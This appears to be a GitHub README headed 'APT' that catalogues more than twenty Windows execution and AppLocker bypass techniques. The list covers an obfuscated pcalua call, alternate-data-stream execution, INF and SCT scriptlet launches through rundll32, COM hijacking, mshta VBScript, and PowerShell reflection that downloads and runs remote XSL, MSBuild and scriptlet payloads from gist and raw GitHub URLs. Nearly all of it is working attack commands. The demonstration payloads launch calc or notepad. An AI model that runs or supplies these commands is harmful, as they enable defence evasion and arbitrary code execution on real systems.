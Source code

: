 #######################
|                     #
|        APT          #
|                     #
#######################


( 1 ) Use Pcalua 
```
p^c^a^l^u^a^ ^-^n^ ^-^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a calc.exe
```

( 2 )  Alternate Data Streams ADS:>

```
cmd.exe:> type C:\Users\Gihad\Desktop\file.bat > C:\Users\Gihad\Desktop\test.txt:x22x2
cmd.exe:> netsh exec C:\Users\Gihad\Desktop\test.txt:x22x2
```

( 3 ) pnputil.exe Launcher .INF:> Note This Eveything here .INF Work on My Script INFscript Only !
```
pnputil.exe /add-driver C:\FilesINFExecution.inf /install

&- My Code INFScript Injection Command Line 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```
( 4 ) INFDefaultInstall Launch Execute INFScript 
```
INFDefaultInstall.exe C:\INFPS.inf
&-  Code INFScript 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```

( 5 ) setupapi.dll Launch Execute My INFScript 
```
setupapi.dll,InstallHinfSection DefaultInstall 132 C:\INFPS.inf
&-  Code INFScript 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```

( 6 ) DLL Execution Using ( Wave.Reflection ) In CPLEx AccessibilityCPL RegServer
```
&- Add Values in HKLM Name File ms-settings in Open/Shell/Command
&- rundll32 accessibilitycpl.dll,DllRegisterServer 
&- rundll32 shell32.dll,Control_RunDLL "C:\Windows\tem32\desk.cpl"
```
( 7 ) Language LUA in Files .wlua
```
wlua.exe C:\testing.wlua
&- Hello World Exe My Code LUA
https://gist.githubusercontent.com/homjxi0e/bbd218dea9bf63fd36524b9777a399f3/raw/888f7e484651fdb733d6261ca002d684a6e5bf9b/Test.wlua
```

( 8 ) SCT ScriptLet Execution in My INFScript
```
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
&- Raw Code 
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415
```

( 9 ) Jscript Execute Code Via ( Eval,VSA,) 
```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JSCript')
$attack = 'var invokeMethod = new ActiveXObject("WScript.Shell");invokeMethod.Run("notepad.exe")'
[Microsoft.JScript.Eval]::JScriptEvaluate($attack,[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
&- Code Execute
https://gist.githubusercontent.com/homjxi0e/0d683007bd4a3ce39d3e19342aaa68ec/raw/4c8709382280de158b99dd78f91875e32a54bac4/ATPSJScript
```

( 10 ) MSI Launch Execution ( MsiExec.exe ) 
```
 msiexec.exe /passive /i C:\testing.msi /norestart 
 &- File MSI Hello World Exe in .MSI 
```

( 10v1 ) COM Component object Model Hijacking
```
&- Add Reg in System 
https://gist.githubusercontent.com/homjxi0e/8e42aa716361dc41b1c45a314bea501c/raw/327104671eebad1361210524f34076503e6b8e44/COM-hijacking.reg
&- You can now Execution invoke-CLSID Via xwizard.exe
xwizard RunWizard /taero /u {00000001-0000-0000-0000-0000FEEDACDC}
```
( 10v2 ) Execute VBScript Via mshta.exe
```
&- Execute VBScript Code using mshta.exe
mshta.exe VBScript:Close(Execute("Set S=CreateObject(""WScript.Shell""):If S.AppActivate(""maybe-Run"")=False Then:S.Run(""C:\Windows\system32\Calc.exe""):End If"))
https://gist.githubusercontent.com/homjxi0e/eb16d75f3db6d6081648f2c5c5c98c3b/raw/0870f7553095dcf6519f93c1cf72c6415468140b/VBSExC
```

( 10v3 ) forfiles.exe Execution Endless 
```
forfiles.exe /c calc.exe

```
( 10v4 ) Lateral Movement Using COM Object Hijacking 
```
 $COMEx = [Activator]::CreateInstance([type]::GetTypeFromCLSID("{00000001-0000-0000-0000-0000FEEDACDC} "))
 https://gist.github.com/homjxi0e/95aeb250b5290b27804cbe983af91085
```

( 10v5 )ScriptRunner.exe Execution 
```
ScriptRunner.exe -appvscript C:\Windows\System32\calc.exe
```
( 10v6 )  msdt.exe Execute EXE-MSI Via Reader XML wtih Launch by Pcwrun.exe
```
 msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
 &- link file PCW8E57.xml
 https://gist.github.com/homjxi0e/3f35212db81b9375b7906031a40c6d87
```
( 10v7 ) Launch MSI Pacakge Execution Powershell
```
install-Package C:\test.msi
https://github.com/homjxi0e/MSIScript/blob/master/Exec-Execute.msi
```
( 10v8 ) DLL Execute CML Launch Application 
```
rundll32.exe C:\Windows\System32\pcwutl.dll,LaunchApplication calc.exe
```
( 10v9 ) HTA/MSI Execute Using OpenWith.exe
```
Whitelisting SRP Bypassing Using OpenWith.exe To Launch HTA/MSI Execution 
&- OpenWith.exe /c C:\test.hta 
&- OpenWith.exe /c C:\testing.msi
```

(Note) Product Via @bohops
( 11 ) HTA Launch Execution ( url.dll ) 
```
Rundll32.exe url.dll,OpenURL FileHTA Or Anything 
```
( 12 ) SCT Launch Execution InSide INFScript ( ieadvpack.dll )  
```
rundll32.exe ieadvpack.dll,LaunchINFSection test.inf,,1, 
```

( 13 ) XML Launch Execution Via Reflection,Assembly Powershell 

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.Build');
$proj = [System.Xml.XmlReader]::create("https://gist.githubusercontent.com/caseysmithrc/8e58d11bc99e496a19424fbe5a99175f/raw/38256d70b414f6678005366efc86009c562948c6/xslt2.proj")
$e=new-object Microsoft.Build.Evaluation.Project($proj); 
$e.build();
```
( 14 ) CSharp Launch Execution Via Reflection.Assembly Powershell 

```
[Reflection.Assembly]::LoadWithPartialName('http://Microsoft.Build '); $e=new-object http://Microsoft.Build.Evaluation.Project('evil.csproj'); $e.Build();
```
( 15 ) SCT Execution Via INFScript By ( advpack.dll )

```
rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,
```
( 16 ) XML Launch Execution Via Reader XML,Transform Object Powershell 
```
$s=New-Object System.Xml.Xsl.XsltSettings;$r=New-Object System.Xml.XmlUrlResolver;$s.EnableScript=1;$x=New-Object System.Xml.Xsl.XslCompiledTransform;$x.Load('https://gist.githubusercontent.com/bohops/ee9e2d7bdd606c264a0c6599b0146599/raw/f8245f99992eff00eb5f0d5738dfbf0937daf5e4/xsl-notepad.xsl',$s,$r);$x.Transform('https://gist.githubusercontent.com/bohops/ee9e2d7bdd606c264a0c6599b0146599/raw/f8245f99992eff00eb5f0d5738dfbf0937daf5e4/xsl-notepad.xml','z');del z;
```

( 17 ) SCT Launch Execution Reflection.Assembly Via ( Microsoft.VisualBasic )

```
 [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct …').Exec(0)

```

( 18 ) SCT Launch Execution Reflection.Assembly Via ( Microsoft.JScript )
```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct …").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
```

( 19 ) Commandline APT Launch Execution Applocker/Bypassing Via ( CL_LoadAssembly )

```
import-module C:\windows\diagnostics\system\AERO\CL_LoadAssembly.ps1
LoadAssemblyFromPath C:\Windows\System32\calc.exe
```

( 20 ) HTA Launch Execution Via ( shdocvw.dll ) 

```
rundll32.exe shdocvw.dll, OpenURL <path to local URL file>
```

( 21 ) HTA Launch Execution Via ( ieframe.dll ) 

```
rundll32.exe ieframe.dll, OpenURL <path to local URL file>
```
( 22 ) Commandline Execute Via  Vshadow.exe
```
 Vshadow exec calc.exe
 ```
 
 ( 23 ) CSharp Execution Via ProjectInstance RA Powershell
 ```
 [Reflection.Assembly]::LoadWithPartialName('Microsoft.Build')
$p="c:\test\test.csproj"
$e=new-object Microsoft.Build.Execution.ProjectInstance($p)
$e.build()
```
